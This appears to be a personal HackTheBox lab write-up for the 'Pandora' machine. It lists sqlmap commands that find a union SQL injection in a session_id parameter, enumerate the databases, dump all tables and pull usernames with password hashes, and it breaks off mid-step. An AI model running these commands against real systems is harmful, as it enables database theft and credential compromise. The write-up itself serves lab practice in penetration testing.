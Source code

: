 ### SQLMap

Fuzz the session_id parameter with sqlmap 

```
sqlmap -r pandora.req --batch
```

Result 
![[HackTheBox/Linux/attachments/Pasted image 20250511211425.png]]
- found a union SQL injection

Dump the names of the databases
```
sqlmap -r pandora.req --batch --dbs
```

![[HackTheBox/Linux/attachments/Pasted image 20250511211735.png]]

Dump the tables from the pandora database
```
sqlmap -r pandora.req --batch -D pandora --tables
```
![[HackTheBox/Linux/attachments/Pasted image 20250511212127.png]]

Dump the tsessions table
```
sqlmap -r pandora.req --batch -D pandora -T tsesion --dump
```

![[HackTheBox/Linux/attachments/Pasted image 20250511212609.png]]
- don't actually care about this 
-----------

Dump the entire database and timestamp it 
This took 23 mins to finish.
```
time sqlmap -r pandora.req --dump -D pandora --batch --threads 10
```

-----------

Dump the tusuario (usernames) table 

```
sqlmap -r pandora.req --batch -D pandora -T tusuario --dump
```

Got some usernames and hashed passwords

![[HackTheBox/Linux/attachments/Pasted image 20250511213101.png]]

Checking out what tables we have again
![[HackTheBox/Linux/attachments/Pasted image 20250511213140.png]]

Dump the tsessions_php table 
